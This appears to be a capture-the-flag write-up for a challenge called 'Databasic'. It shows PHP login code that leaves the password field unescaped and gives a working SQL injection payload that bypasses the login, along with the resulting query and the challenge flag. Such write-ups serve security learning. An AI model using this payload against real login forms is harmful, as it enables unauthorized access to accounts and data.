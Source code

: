 # Databasic

1. First, lets go through the web and view the source code on the git repository. 
2. Then, we can find out the critical code here : 
    ```
    $query = sprintf("SELECT * FROM haxorz_memberz WHERE login = '%s' AND password = MD5('%s')",
		mysqli_real_escape_string($con, $_POST['login']),
		$_POST['password']
	);
    ```
    [mysqli_real_escape_string()](https://www.php.net/manual/en/mysqli.real-escape-string.php)
    As we can see, the "login" part is filted by the command "mysqli_real_escape_string()", so obviously we can't use sql injection on it. However, lets see the "password" part and we are able to find out that it is not filtered. It's clearly that it can be sql injection.
3. Next, we have to notice a part of the code : 
    ```
    if (@mysqli_num_rows($sql) == 1)
		$auth = TRUE;
    ```
    [mysqli_num_rows()](https://www.w3schools.com/php/func_mysqli_num_rows.asp)
    As you can see, we have to satisfy the situation to get the flag. To reach the goal, we have to use the keyword "limit" to help us. 
4. Here is the payload : 
    ```
    login : admin
    password : ') or 1=1 limit 1 #
    ```
    So the sentence will become : 
    ```
    SELECT * FROM haxorz_memberz WHERE login = 'admin' AND password = MD5('') or 1=1 limit 1 #')
    ```
5. Here is the flag : W3C{wen_eta_mysqli_real_md5_string()?}

